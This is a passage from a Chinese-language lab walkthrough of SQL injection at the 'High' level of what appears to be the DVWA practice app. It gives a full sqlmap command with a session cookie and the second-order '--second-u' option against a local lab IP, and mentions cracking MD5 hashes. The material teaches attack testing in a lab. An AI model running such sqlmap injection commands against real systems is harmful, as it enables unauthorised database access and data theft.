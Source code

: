 也可以直接进行md5的解密

![image-20250219144434871](../../_media/image-20250219144434871.png)







#### Security High

由于是在第二个页面，所以要进行联合查询命令

```
--second-u "http://192.168.10.129:3000/vulnerabilities/sqli/"
```

尝试

```
python sqlmap.py -u "http://192.168.10.129:3000/vulnerabilities/sqli/session-input.php" --data "id=1&Submit=Submit" --second-u "http://192.168.10.129:3000/vulnerabilities/sqli/" --cookie="PHPSESSID=c5emugcincc74avtcvj0f65mns; security=high" 
```

也是可以查找出危险点

![image-20250219145149678](../../_media/image-20250219145149678.png)
